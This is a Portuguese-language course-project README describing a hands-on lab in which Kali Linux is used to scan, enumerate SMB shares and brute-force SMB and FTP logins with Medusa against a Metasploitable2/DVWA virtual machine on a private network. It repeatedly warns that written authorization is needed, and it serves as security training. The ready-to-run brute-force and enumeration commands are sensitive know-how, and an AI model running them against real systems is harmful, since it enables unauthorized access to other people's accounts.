 # Brute Force & Enumeração — Hands-On (Kali Linux / DVWA / Metasploitable)

**Resumo**  
Projeto prático realizado no curso *Cibersegurança Santander 2025 (DIO)*. Objetivo: executar técnicas de enumeração e ataques de força bruta em ambiente controlado (Kali Linux + Metasploitable2 / DVWA), documentar os passos e evidências e entregar resultados em repositório público.

---

## 🧭 Objetivos
- Reconhecimento e enumeração de portas/serviços (Nmap).
- Identificação de serviços vulneráveis (FTP, SMB, HTTP).
- Ataques de força bruta em serviços (Medusa/Hydra).
- Validação de acessos com smbclient/ftp.
- Documentar evidências e reproduzir procedimentos em ambiente controlado.

---

## 🛠️ Ambiente utilizado
- Kali Linux (VM) — atacante
- Metasploitable2 / DVWA (VM) — alvo
- Rede privada (VirtualBox Host-Only)
- IP alvo no laboratório: `192.168.56.101`

> **Aviso ético**: este material foi gerado em ambiente controlado e autorizado para fins educacionais. Não execute testes contra sistemas sem permissão escrita.

---

⚙️ Comandos e fluxo usado (exemplos)

Observação: execute estes comandos apenas em ambientes de teste ou com autorização explícita do proprietário do alvo.

1. Reconhecimento (Nmap)

Identifica serviços e versões em portas específicas.

# Scan de versão em portas comuns
nmap -sV -p 21,22,80,139,445,3389 192.168.56.101

2. Enumeração SMB

Lista recursos/compartilhamentos SMB disponíveis no host.

# Listar shares e informações SMB (será solicitado password se necessário)
smbclient -L //192.168.56.101 -U msfadmin

3. Brute-force com Medusa — SMB (exemplo)

Tentativa de autenticação SMB usando wordlists de usuários e senhas.

# medusa: -h host -M módulo -U arquivo_de_usuarios -P arquivo_de_senhas -t threads -n stop_on_success -f dont_show_stats
medusa -h 192.168.56.101 -M smbnt -U users.txt -P pass.txt -t 6 -n -f

Notas:

users.txt e pass.txt devem existir no diretório atual.
-t 6 define 6 threads (ajuste conforme sua infraestrutura).
-n/-f controlam comportamento/output conforme a versão do medusa.

4. Brute-force com Medusa — FTP (exemplo)

Tentativa de autenticação via FTP.

medusa -h 192.168.56.101 -M ftp -U users.txt -P pass.txt -t 6 -n -f

5. Validação de credenciais (conexão manual)

Após encontrar credenciais, valide acesso com clientes nativos.

# Conectar a um share SMB
smbclient //192.168.56.101/msfadmin -U msfadmin

# Conectar via FTP
ftp 192.168.56.101

🔎 Boas práticas e recomendações:
Sempre documente: guarde logs e saída dos scans em /logs (ex.: nmap -oN logs/nmap_scan.txt ...).
Use wordlists públicas testadas (ex.: rockyou.txt) e nomeie claramente (users.txt, pass.txt).
Ajuste threads e timeouts para não derrubar serviços.

Antes de qualquer teste, obtenha autorização por escrito do proprietário do sistema.
